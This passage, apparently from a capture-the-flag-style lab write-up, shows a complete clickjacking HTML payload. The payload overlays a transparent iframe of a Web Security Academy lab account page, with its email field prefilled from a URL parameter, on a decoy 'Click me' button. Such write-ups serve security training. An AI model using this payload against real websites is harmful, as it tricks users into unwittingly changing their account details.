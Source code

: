 
So we can execute the attack with a payload like this:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:600px;
			height:600px;
			opacity:0.1;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:600px;
			height:600px;
			z-index:1;
			}
		#btn {
			position:absolute;
			top:440px;
			left:70px;
		}
	</style>
</head>
<body>
	<div id="decoy_website">
	<button id="btn">Click me</button>
	</div>
	<iframe id="target_website" src="https://0a11003f031a6dc080b6033a0090001e.web-security-academy.net/my-account?email=test@test.com">
	</iframe>
</body>
```



![img](images/Clickjacking%20with%20form%20input%20data%20prefilled%20from%20a%20URL%20parameter/3.png)
